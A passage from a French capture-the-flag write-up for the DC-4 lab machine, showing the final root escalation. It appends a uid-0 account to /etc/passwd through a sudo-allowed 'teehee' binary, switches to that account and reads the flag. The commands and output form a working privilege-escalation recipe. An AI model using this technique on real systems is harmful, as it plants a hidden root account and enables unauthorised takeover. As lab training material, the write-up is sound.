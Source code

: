 Attention de ne pas oublier l'option `-a` pour le mode `append` sans quoi vous poutrez le système (un moment d'égarement est vite arrivé 😅).

```console
charles@dc-4:~$ echo devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh | sudo /usr/bin/teehee -a /etc/passwd
devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh
charles@dc-4:~$ tail /etc/passwd
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
nginx:x:107:111:nginx user,,,:/nonexistent:/bin/false
charles:x:1001:1001:Charles,,,:/home/charles:/bin/bash
jim:x:1002:1002:Jim,,,:/home/jim:/bin/bash
sam:x:1003:1003:Sam,,,:/home/sam:/bin/bash
Debian-exim:x:108:112::/var/spool/exim4:/bin/false
devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh
charles@dc-4:~$ su devloop
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
flag.txt
# cat flag.txt



888       888          888 888      8888888b.                             888 888 888 888 
888   o   888          888 888      888  "Y88b                            888 888 888 888 
888  d8b  888          888 888      888    888                            888 888 888 888 
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 


Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
